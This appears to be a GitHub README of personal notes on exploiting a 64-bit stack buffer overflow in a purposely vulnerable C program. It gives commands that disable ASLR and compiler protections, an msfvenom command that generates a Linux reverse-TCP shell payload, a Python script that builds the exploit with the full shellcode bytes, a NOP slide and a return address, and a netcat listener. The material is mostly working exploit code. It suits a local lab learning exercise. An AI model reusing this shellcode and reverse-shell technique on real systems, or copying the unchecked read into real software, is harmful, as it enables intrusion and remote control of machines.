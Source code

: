 # some buffer overflow examples

references from https://bytesoverbombs.io/exploiting-a-64-bit-buffer-overflow-469e8b500f10

## bad code

bufferoverflow.c
```c
#include <stdio.h>
#include <unistd.h>
int vuln() {
    // Define variables
    char arr[400];
    int return_status;
    // Grab user input
    printf("What's your name?\n");
    return_status = read(0, arr, 800);
    // Print user input
    printf("Hey %s", arr);
    // Return success
    return 0;
}
int main(int argc, char *argv[]) {
    // Call vulnerable function
    vuln();
    // Return success
    return 0;
}
```

## compile
```shell
#randomize_va_space , when set to 1 or 2, turns on ASLR on our target sys-tem. By default, randomization is turned on in Ubuntu, but we need this feature off for our example. If the file includes the value 0, we’re all set. If not, change the file contents to 0 and save it.
echo 0 > /proc/sys/kernel/randomize_va_space
# -fno-stack-protector flag to turn off GCC’s stack-protection mechanism, which would attempt to prevent buffer overflows if we left it turned on. The -z execstack compiler option makes the stack executable, disabling another buffer overflow prevention method

#The -g option tells GCC to add extra debugging information for GDB 
gcc -g -fno-stack-protector -z execstack -o bufferoverflow bufferoverflow.c
```

## generate malicious code
```shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload
```
will to generat *buf* code
## payload

```python
# Payload generator
#!/usr/bin/python

## Total payload length
payload_length = 424
## Amount of nops
nop_length = 100
## Controlled memory address to return to in Little Endian format
## 0x7fffffffe2d0, this address was been foun through gdb. it's $rsp address
return_address = '\xd0\xe2\xff\xff\xff\x7f\x00\x00'
## Building the nop slide
nop_slide = "\x90" * nop_length


## Malicious code injection, generated by msfvenom
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x19\x1b\xa9\xe0\xc7\x3e\x20"
buf += "\x34\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x73\x32\xf1\x79\xad\x3c\x7f\x5e\x18\x45\xa6\xe5\x8f"
buf += "\xa9\x68\x8d\x1b\x1b\xb8\xbc\x07\x96\x22\x4a\x48\x53"
buf += "\x20\x06\xad\x2e\x7a\x5e\x33\x43\xa6\xe5\xad\x3d\x7e"
buf += "\x7c\xe6\xd5\xc3\xc1\x9f\x31\x25\x41\xef\x71\x92\xb8"
buf += "\x5e\x76\x9b\x1b\x7b\x72\xc7\xcf\xb4\x56\x20\x67\x51"
buf += "\x92\x4e\xb2\x90\x76\xa9\xd2\x16\x1e\xa9\xe0\xc7\x3e"
buf += "\x20\x34"

## Building the padding between buffer overflow start and return address
padding = 'B' * (payload_length - nop_length - len(buf))

print nop_slide + buf + padding + return_address
```

## listening
```shell
nc -lvp 4444 &
```

## gdb debug
```shell
gdb bufferoverflow
```

![breakpoint](https://github.com/wangxi19/experiences/blob/master/bufferoverflow/image/breakpoint.png)

![beforexploiting](https://github.com/wangxi19/experiences/blob/master/bufferoverflow/image/beforexploiting.png)

![afterexploiting](https://github.com/wangxi19/experiences/blob/master/bufferoverflow/image/afterexploiting.png)
